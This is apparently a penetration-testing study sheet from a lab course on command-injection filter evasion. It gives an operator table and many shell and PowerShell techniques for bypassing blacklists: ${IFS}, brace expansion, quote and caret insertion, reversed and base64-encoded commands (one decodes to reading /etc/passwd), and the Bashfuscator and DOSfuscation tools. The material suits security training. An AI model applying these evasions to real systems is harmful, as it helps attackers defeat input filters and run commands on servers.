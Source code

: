 | **Injection Type**                      | **Operators**                                     |
| --------------------------------------- | ------------------------------------------------- |
| SQL Injection                           | `'` `,` `;` `--` `/* */`                          |
| Command Injection                       | `;` `&&`                                          |
| LDAP Injection                          | `*` `(` `)` `&` `\|`                              |
| XPath Injection                         | `'` `or` `and` `not` `substring` `concat` `count` |
| OS Command Injection                    | `;` `&` `\|`                                      |
| Code Injection                          | `'` `;` `--` `/* */` `$()` `${}` `#{}` `%{}` `^`  |
| Directory Traversal/File Path Traversal | `../` `..\\` `%00`                                |
| Object Injection                        | `;` `&` `\|`                                      |
| XQuery Injection                        | `'` `;` `--` `/* */`                              |
| Shellcode Injection                     | `\x` `\u` `%u` `%n`                               |
| Header Injection                        | `\n` `\r\n` `\t` `%0d` `%0a` `%09`                |
# Filter Evasion
## Bypass Blacklisted Operators
Just try.
## Bypass Blacklisted Spaces
#### Using Tabs
Using tabs (%09) instead of spaces is a technique that may work, as both Linux and Windows accept commands with tabs between arguments, and they are executed the same.
#### Using $IFS

Using the (\$IFS) Linux Environment Variable may also work since its default value is a space and a tab, which would work between command arguments. So, if we use `${IFS}` where the spaces should be, the variable should be automatically replaced with a space, and our command should work.

#### Using Brace Expansion

There are many other methods we can utilize to bypass space filters. For example, we can use the `Bash Brace Expansion` feature, which automatically adds spaces between arguments wrapped between braces, as follows:

```shell
$ {ls,-la}
```

#### Using Linux Environment Variables

```shell
echo ${PATH:0:1}
/
```
```shell
echo ${LS_COLORS:10:1}

;
```

### Windows

The same concept works on Windows as well. For example, to produce a slash in `Windows Command Line (CMD)`, we can `echo` a Windows variable (`%HOMEPATH%` -> `\Users\user`), and then specify a starting position (`~6` -> `\user`), and finally specifying a negative end position, which in this case is the length of the username `htb-student` (`-11` -> `\`) :

Bypassing Other Blacklisted Characters

```cmd-session
C:\user> echo %HOMEPATH:~6,-11%

\
```

## Character Shifting

There are other techniques to produce the required characters without using them, like `shifting characters`. For example, the following Linux command shifts the character we pass by `1`. So, all we have to do is find the character in the ASCII table that is just before our needed character (we can get it with `man ascii`), then add it instead of `[` in the below example. This way, the last printed character would be the one we need:

```shell
$ man ascii     # \ is on 92, before it is [ on 91
$ echo $(tr '!-}' '"-~'<<<[)

\
```

# Bypassing Blacklisted Commands
## Linux & Windows

One very common and easy obfuscation technique is inserting certain characters within our command that are usually ignored by command shells like `Bash` or `PowerShell` and will execute the same command as if they were not there. Some of these characters are a single-quote `'` and a double-quote `"`, in addition to a few others.

The easiest to use are quotes, and they work on both Linux and Windows servers. For example, if we want to obfuscate the `whoami` command, we can insert single quotes between its characters, as follows:

Bypassing Blacklisted Commands

```shell
$ w'h'o'am'i

user
```

The same works with double-quotes as well:

Bypassing Blacklisted Commands

```shell
$ w"h"o"am"i

user
```

### Linux Only

We can insert a few other Linux-only characters in the middle of commands, and the bash shell would ignore them and execute the command. These characters include the backslash \ and the positional parameter character $@. This works exactly as it did with the quotes, but in this case, the number of characters do not have to be even, and we can insert just one of them if we want to:
Code: bash

```shell
who$@ami
w\ho\am\i
```
### Windows Only

There are also some Windows-only characters we can insert in the middle of commands that do not affect the outcome, like a caret (`^`) character, as we can see in the following example:

Bypassing Blacklisted Commands

```cmd
C:\user> who^ami

21y4d
```

## Case Manipulation
When it comes to Linux and a bash shell, which are case-sensitive we have to get a bit creative and find a command that turns the command into an all-lowercase word. One working command we can use is the following:


```shell
$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

home
```

## Reversed Commands
```shell
$ $(rev<<<'imaohw')
```

```powershell
C:\user> iex "$('imaohw'[-1..-20] -join '')"
```

## Encoded Commands
```shell
 bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

```powershell
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```

## Evasion Tools
## Linux (Bashfuscator)

A handy tool we can utilize for obfuscating bash commands is [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator). We can clone the repository from GitHub and then install its requirements, as follows:
```shell
$ ./bashfuscator -c 'cat /etc/passwd'

[+] Mutators used: Token/ForCode -> Command/Reverse
[+] Payload:
 ${*/+27\[X\(} ...SNIP...  ${*~}   
[+] Payload size: 1664 characters
```
## Windows (DOSfuscation)
```powershell
PS C:\user> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\user> Invoke-DOSfuscation

Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1
```